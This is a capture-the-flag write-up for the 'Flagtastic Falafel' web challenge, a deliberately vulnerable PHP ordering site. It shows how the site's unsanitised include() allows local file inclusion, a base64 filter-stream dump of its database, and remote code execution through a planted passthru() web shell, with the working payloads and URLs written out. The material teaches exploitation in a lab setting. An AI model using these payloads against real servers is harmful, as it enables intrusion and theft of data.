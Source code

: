 # Flagtastic Falafel

## Challenge Description

> Flagtastic Falafel just got a brand new online ordering website! The programmer told me they followed all of the security advice they heard from everyone, so it is super secure. However, with a name like "Flagtastic Falafel" there's bound to be a flag sitting around somewhere, and I know how much y'all like flags...
>
> NOTE: the flag is pretty easy to find when you get rce, but don't try to brute force the path - you'll never find it!

## Solution

### Initial Website Analysis

Obviously visiting the provided website is always a good place to start:

<div align="center">
<img src="img/order-screen.png" alt="Flagtastic Falafel order screen">
</div>

That's a very nice picture :) Now to see what happens when we place an order:

<div align="center">
<img src="img/order-confirmation.png" alt="Flagtastic Falafel order screen">
</div>

While the confirmation page isn't really remarkable, the URL looks interesting: `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=fashionable.php&name=Me&credit_card_number=12345678`. Now is probably a good time to check out the website source we were provided, namely foods.php (I've included the entire file here for convenience):

```php
<?php
    # Someone told me that I should NEVER EVER STORE UNENCRYPTED CREDIT CARD NUMBERS IN A DATABASE!!!
    # Flagtastic Falafel takes security very seriously, so credit card numbers are stored in files instead.

    # Generate a unique file name for this customer/credit card number
    $filename = bin2hex(random_bytes(20));
    $order_file = fopen("/orders/" . $filename, "w") or die("Unable to open order file for writing :-(");

    # Write order information to the file
    fwrite($order_file, "Customer Name: " . $_GET["name"] . "\n");
    fwrite($order_file, "Credit Card Number: " . $_GET["credit_card_number"] . "\n");
    fwrite($order_file, "Order: " . $_GET["food"] . "\n\n");

    # Close the file
    fclose($order_file);

    # Record other order information in database (don't worry, credit card data is not stored in database)
    $db = new SQLite3("/orders/orders.db");
    # No sql injection allowed!!
    $stmt = $db->prepare("INSERT INTO orders (customer_name_hash, order_filename) VALUES (?, ?)");
    # Only store hash of name for security!! Storing sensitive information in the database is a no no.
    $name_hash = hash("md5", $_GET["name"]);
    $stmt->bindValue(1, $name_hash);
    $stmt->bindValue(2, $filename);
    $stmt->execute();
?>

<html>
    <head>
        <title>Flagtastic Falafel</title>
    </head>
    <body>
        <?php
            # No XSS allowed!! (we'll have an XSS challenge at some point, but this isn't it)
            echo("<p>Thanks for your order, " . htmlspecialchars($_GET["name"]) . "!</p>");
            echo("<p>We received your credit card number as " . htmlspecialchars($_GET["credit_card_number"]) . ". Please ensure that it is incorrect, and submit your order again if it isn't. Thank you!</p>");
            echo("<p>Here's what you ordered:</p>");
            include($_GET["food"]);
        ?>
    </body>
</html>
```

Some relevant information from that:

- Orders are inserted into a database located at `/orders/orders.db` as a name hash/random filename pair
- The database query is prepared in advance, so we indeed can't perform SQL injection (unless SQLite itself has vulnerabilities :))
- The ordered falafel (in the above case `fashionable.php`) is directly included into the confirmation page

That last point is interesting since, in combination with each order submission creating a file in the `/orders` directory, it allows us to execute arbitrary PHP. Because the filenames are randomly generated though, we're gonna need to find a way to get them, and what better way than the database itself?

### Obtaining the database

Even though PHP's `include()` function is meant to evaluate PHP, I figured I'd try including the database directly to see if that'd work:

<div align="center">
<img src="img/db-include.png" alt="Result of direct inclusion of order database">
</div>

We are able to access the database this way, but unfortunately this format can't be loaded into SQLite, even after removing the surrounding HTML. I assume the inclusion process can mangle binary files, but I'm not entirely sure. Luckily we can get around this though by encoding the database in Base64 before it's sent, which we can then decode to the original database. [This article](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601) mentions that PHP filter streams can accomplish just that. In this case, we can include the database as Base64 using the URL `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=php://filter/convert.base64-encode/resource=/orders/orders.db`, which yields the following:

<div align="center">
<img src="img/base64-database.png" alt="Base64-encoded SQLite database inclusion">
</div>

We can then select and paste the Base64 string representing the database and paste it into a file. I wrote a [short script](./dump_db.py) to decode the database back into — well, a database :) Just to verify, I selected the first 10 rows from it:

```shell
$ sqlite3 -header orders.db "SELECT * FROM orders LIMIT 10"
id|customer_name_hash|order_filename|order_date
1|d41d8cd98f00b204e9800998ecf8427e|76513e47f827ff8cec427194bc9b37d5f7489f0a|2022-11-07 11:30:38
2|d41d8cd98f00b204e9800998ecf8427e|55226b22ace13c937a35f28b415eca9d0ca13a9f|2022-11-07 11:30:47
3|c5836008c1649301e29351a55db8f65c|9ce29ab114fe88a58ee59fac3da8f563148ec355|2022-11-07 17:51:43
4|d41d8cd98f00b204e9800998ecf8427e|0cf8688f09ba63e9a0d59dad31c7ebd5bca634f7|2022-11-07 18:08:55
5|d41d8cd98f00b204e9800998ecf8427e|b653cfce195fd849a97b37165521365fd2216669|2022-11-07 18:09:16
6|d41d8cd98f00b204e9800998ecf8427e|8a206a8ced9f57056215477c15e1c55b464c7c94|2022-11-07 18:09:34
7|d41d8cd98f00b204e9800998ecf8427e|29a802a2c3a1c1b337f31096d8b90a379d60eaf2|2022-11-07 18:09:59
8|d41d8cd98f00b204e9800998ecf8427e|15c0033413643ba89e7c4599cf17135553e71905|2022-11-07 18:10:29
9|d41d8cd98f00b204e9800998ecf8427e|ae37e9c77d0b5ba9339bd860df1de75d8146e19d|2022-11-07 18:10:48
10|d41d8cd98f00b204e9800998ecf8427e|64ca9769493b31bb3e9f6b91823b3e778d741a27|2022-11-07 18:10:58
```

Great, now we can recover the entire order database :)

We know from `foods.php` that the `customer_name_hash` for a given row is the MD5 hash of the name they provided, so we should now be able to find the filename of the order from earlier:

```shell
$ echo -n "Me" | md5sum
318b2739ddc2c16c97b33c9b04b79f3e  -

$ sqlite3 orders.db "SELECT order_filename FROM orders WHERE customer_name_hash = '318b2739ddc2c16c97b33c9b04b79f3e'"
34a846e79b1a45146e2167d863acc7b7e38a2ae5
```

Neat! Including it into the order confirmation page via the URL `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=/orders/34a846e79b1a45146e2167d863acc7b7e38a2ae5` confirms that this is indeed the correct file:

<div align="center">
<img src="img/me-included.png" alt="Order result file included">
</div>

Now onto exploiting being able to include arbitrary files :)

### Why yes, of course my name is `<?php`

As I mentioned above, the `include()` function evaluates the PHP in the provided file and includes the result. We can test this by setting the name (or credit card number) on the order page to some valid PHP. This is the result of providing the name `<?php echo "pwned"; ?>` (where the filename is obtained via the process mentioned in the previous section):

<div align="center">
<img src="img/pwned.png" alt="Arbitrary PHP execution in foods.php">
</div>

Neat! Luckily for us, the developers behind PHP decided to include [the `passthru()` function](https://www.php.net/manual/en/function.passthru.php), which executes a command on the running server and includes the resulting text. Not sure who okayed that idea but hey, it works for our purposes :) The name payload I used to get arbitrary command execution was the following:

```php
<?php passthru($_GET["cmd"]); ?>
```

The `$_GET["cmd"]` gets the value of the `cmd` query parameter (like the `food` and `name` parameters on the order confirmation page). This allows us to execute any command without having to submit a new order, essentially giving us full shell access on the server. Let's try executing `ls` using this (again after finding the proper filename as shown above). In my case, the URL to do so was `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=/orders/f6885a6956227115e20988e33964d9249fd89b47&cmd=ls`, which yielded the following result:

<div align="center">
<img src="img/file-list.png" alt="ls command result">
</div>

And there are all the types of falafel! Onto actually finding the flag :)

### Capturing the flag

We were given that the name of the file containing the flag was `flag.txt`, but obviously not where to look for it. The `find` command turns out to be our friend here, since it recursively looks through directories until it finds a file matching the conditions you specify. Running `find -name flag.txt` via our injected PHP does yield a result, but its contents are `no flag for you, cry harder` so that's probably not the flag :( It's probably located in a different folder, so instead we can run `find / -name flag.txt` to recursively look in every directory on the Flagtastic Falafel server. You can also make `find` execute commands on each file that matches the provided condition via `-exec`, so I used `cat` to print the contents of all of the files. The final command ended up being `find / -name flag.txt -type f -exec cat $1 {} \;`. The `-type f` filter only matches files (i.e. not directories/folders) and the `-exec cat $1 {} \;` chunk just prints the contents of all of the matching files.

Because of how URLs work, though, we can't just provide that as a command; we have to encode some of the characters using [percent encoding](https://en.wikipedia.org/wiki/Percent-encoding), which in this case gives us `find%20%2F%20-name%20flag.txt%20-type%20f%20-exec%20cat%20%241%20%7B%7D%20%5C%3B`. We can then execute this command using our injected PHP via the url `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=/orders/f6885a6956227115e20988e33964d9249fd89b47&cmd=find%20%2F%20-name%20flag.txt%20-type%20f%20-exec%20cat%20%241%20%7B%7D%20%5C%3B`:

<div align="center">
<img src="img/found-flags.png" alt="Found flag.txt file contents">
</div>

And there we have it! Our flag is `osu{fIn4llY_f0uND_fL49_F0R_FL4974s7Ic_f4l4f3l}` (not the [YouTube link](https://www.youtube.com/watch?v=dQw4w9WgXcQ), although I'd highly recommend giving that video a watch ;)). This is why you should always sanitize user input so they can't do anything naughty ;)
